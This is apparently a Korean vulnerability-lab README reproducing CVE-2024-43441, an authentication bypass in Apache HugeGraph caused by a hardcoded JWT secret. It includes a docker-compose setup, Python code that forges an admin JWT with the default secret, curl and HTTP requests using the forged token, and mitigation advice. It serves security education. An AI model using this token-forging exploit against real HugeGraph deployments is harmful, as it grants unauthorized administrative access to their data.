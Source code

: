 # CVE-2024-43441 | Apache HugeGraph JWT 토큰 비밀 하드코딩으로 인한 인증 우회

> 화이트햇 스쿨 3기 (38반) - [김누리한 (@HanTul)](https://github.com/HanTul)

[영어 버전(Chinese version)](https://github.com/vulhub/vulhub/blob/master/hugegraph/CVE-2024-43441/README.md)
[중국어 버전(Chinese version)](https://github.com/vulhub/vulhub/blob/master/hugegraph/CVE-2024-43441/README.zh-cn.md)

<br/>

Apache HugeGraph는 빠르고 확장성이 뛰어난 그래프 데이터베이스로, 엔터프라이즈급 안정성과 다양한 기능을 제공한다.
그러나 해당 제품의 JWT 인증 구현에서 심각한 취약점이 발견되었다. 
인증 기능이 활성화되어 있음에도 불구하고 `auth.token_secret` 설정이 비어 있는 경우, HugeGraph는 기본값으로 **하드코딩**된 JWT 비밀 키(`FXQXbJtbCLxODc6tGci732pkH1cyf8Qg`)를 사용한다.
공격자는 이 기본 비밀 키를 이용해 유효한 JWT 토큰을 생성할 수 있으며, 이를 통해 인증을 우회하고 권한이 필요한 API 요청을 무단으로 수행할 수 있다.

**참고 자료 :**
- <https://github.com/advisories/GHSA-f697-gm3h-xrf9>
- <https://github.com/apache/incubator-hugegraph/commit/03b40a52446218c83e98cb43020e0593a744a246>

<br/>

## 환경 설정

다음 명령어를 사용하여 Apache HughGraph 1.3.0 서버를 시작할 수 있다.
```
docker-compose up -d
```

서버가 정상적으로 시작되면 RESTful API는 `http://your-ip:8080`에서 접근할 수 있다.
HugeGraph는 기본적으로 `HTTP Basic Authentication`과 `JWT Authentication` 두 가지 인증 방식을 지원한다.
Docker 컨테이너를 실행할 때 `PASSWORD` 환경 변수를 설정하면, 사용자 이름 `admin`과 해당 비밀번호를 이용해 HTTP Basic 인증으로 API에 접근할 수 있다.

<br/>

## 취약점 재현

기본 관리자 비밀번호 외에도, HugeGraph는 `auth.token_secret`이 설정되지 않은 경우 **하드코딩된 기본 JWT 비밀 키**를 사용한다.
공격자는 이 기본 비밀 키(`FXQXbJtbCLxODc6tGci732pkH1cyf8Qg`)를 이용해 유효한 JWT 토큰을 생성하고, 인증을 우회하여 보호된 엔드포인트에 접근할 수 있다.

### 1. JWT 토큰 생성
`pyjwt` 라이브러리를 사용하여 아래와 같이 JWT 토큰을 생성할 수 있다:

```
# pip install pyjwt
import jwt

# 기본 하드코딩된 secret 사용
token = jwt.encode(
    {
        "user_name": "admin",
        "user_id": "-30:admin",
        "exp": 9739523483  # 만료 시간 (epoch time)
    },
    "FXQXbJtbCLxODc6tGci732pkH1cyf8Qg",  # 하드코딩된 기본 secret
    algorithm="HS256"
)
print(f"Generated JWT token: {token}")
```
**출력 예시:**

![](2.png)

<br/>

### 2. 보호된 엔드포인트 접근

생성된 JWT 토큰을 `Authorization: Bearer` 헤더에 포함하여 보호된 API에 접근할 수 있다:

```
GET /graphs HTTP/1.1
Host: localhost:8080
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX25hbWUiOiJhZG1pbiIsInVzZXJfaWQiOiItMzA6YWRtaW4iLCJleHAiOjk3Mzk1MjM0ODN9.mnafQi6x9nlMz1OcPQu4xAyiq91Ig5tUFhGsktNXKqg
```

`curl` 명령어로 접근할 경우:

```
curl -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX25hbWUiOiJhZG1pbiIsInVzZXJfaWQiOiItMzA6YWRtaW4iLCJleHAiOjk3Mzk1MjM0ODN9.mnafQi6x9nlMz1OcPQu4xAyiq91Ig5tUFhGsktNXKqg" http://localhost:8080/graphs
```

정상적인 인증 없이도 서버로부터 아래와 같은 응답을 받을 수 있다:

![](3.png)

이를 통해 인증을 우회하여 모든 권한 이 필요한 API에 접근이 가능하다.

>만약 인증 헤더 없이 API에 접근하면 아래와 같은 오류가 반환된다:
```
{
    "exception": "class jakarta.ws.rs.NotAuthorizedException",
    "message": "Authentication credentials are required",
    "cause": ""
}
```

![](1.png)

<br/>

## 대응 방안
이 취약점을 예방하기 위해 다음과 같은 대응이 필요하다:

- HugeGraph를 **1.3.1 이상 버전**으로 업데이트한다.
- `auth.token_secret` 설정을 반드시 수동으로 지정하고, 충분히 복잡한 비밀 키를 사용한다.
- 인증 관련 설정을 검증하고, 환경 변수나 별도의 설정 파일을 통해 안전하게 관리한다.
- 불필요한 외부 접근을 차단하고, 방화벽 또는 네트워크 접근 제어(IP 화이트리스트)를 적용한다.
- JWT 토큰 검증 로직을 검토하고, 토큰 생성 및 검증 시 사용하는 알고리즘과 키 관리 정책을 강화한다.
